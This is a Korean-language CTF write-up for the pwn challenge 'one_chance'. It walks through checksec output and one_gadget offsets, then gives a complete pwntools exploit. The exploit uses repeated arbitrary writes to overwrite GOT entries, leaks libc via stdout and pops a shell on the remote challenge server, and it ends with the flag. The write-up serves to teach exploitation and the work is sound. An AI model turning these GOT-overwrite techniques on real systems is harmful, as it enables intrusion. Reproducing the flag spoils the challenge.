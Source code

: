 ```bash
[*] '/mnt/d/hk/_contest/2024JBU-CTF/one_chance/challenge'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    Stripped:   No
```
Partial RELRO이고, pie가 꺼져있다.

```bash
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```
원가젯이 전부 rsp와만 관련이 되어있다.

malloc, free, show를 한 번씩 시키고, give_chance에서 AAW를 한 번 시켜주고, malloc, free 횟수를 0으로 초기화해준다. give_chance는 실행 횟수(x)=1일 때 접근하면 exit이 실행된다.(give_chance는 i = j = z = 1일 때 실행된다.)

1. 첫 번째 AAW에서 x를 2로 바꾸면 아무리 많이 x가 증가해도 x != 1이므로 give_chance를 무한히 실행할 수 있다.
2. 두 번째 AAW에서 exit_got을 malloc_got으로 바꾸면, exit이 실행되지 않아서 무한정으로 malloc과 free, show가 가능해진다.
3. 세 번째 AAW에서 &(one_chance)\[4\]에 &stdout@@GLIBC_2_2_5 주소를 넣는다.
4. 네 번째 AAW에서 z=0으로 바꾼다.
   3번에서 세팅했으므로 show(4)를 통해 stdout 주소를 알아내고 libc_base를 구할 수 있다. show를 실행했으므로 z=1이 된다.
5. 다섯 번째 AAW에서 각종 함수 실행, 어떤 got을 덮을지, 어떤 원가젯을 사용할지를 손수 노가다하여 쉘이 실행되는 것을 찾는다. 필자는 puts_got을 0xf03a4 원가젯으로 덮어 main에서 puts가 실행될 때 쉘이 따졌다.

# Exploit code

```python
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

p = remote('44.210.9.208', 10018)
# p = process('./challenge')
e = ELF('./challenge')
l = ELF('./libc.so.6')

#gdb.attach(p)

i = 0x60209C
x = 0x6020A8
z = 0x6020A4
main = 0x400B0D
bss = 0x6020C8

def malloc(msg: bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b'Content: ', msg)

def free(idx: int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'>', str(idx).encode())
    
def show(idx: int):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Which chunk do you want to watch?', str(idx).encode())
    p.recvline()
    return p.recvline()[:-1]

def re_chance(i1: int, i2: int):
    p.sendlineafter(b'write your name.', str(i1).encode())
    p.sendlineafter(b'show your efforts.', str(i2).encode())

malloc(b'a')
free(0)
show(0)
re_chance(x, 2)

malloc(b'a')
free(0)
re_chance(e.got['exit'], e.sym['malloc'])

malloc(b'a')
free(0)
re_chance(0x6020e0, 0x602080)

malloc(b'a')
free(0)
re_chance(z, 0)

l.address = u64(show(4).ljust(8, b'\x00')) - l.sym['_IO_2_1_stdout_']
print(hex(l.address))

og = 0xf03a4

malloc(b'a')
free(0)
re_chance(e.got['puts'], l.address + og)
p.interactive()
```
`scpCTF{1_T1M3_0nly@0pp0rtunity!}`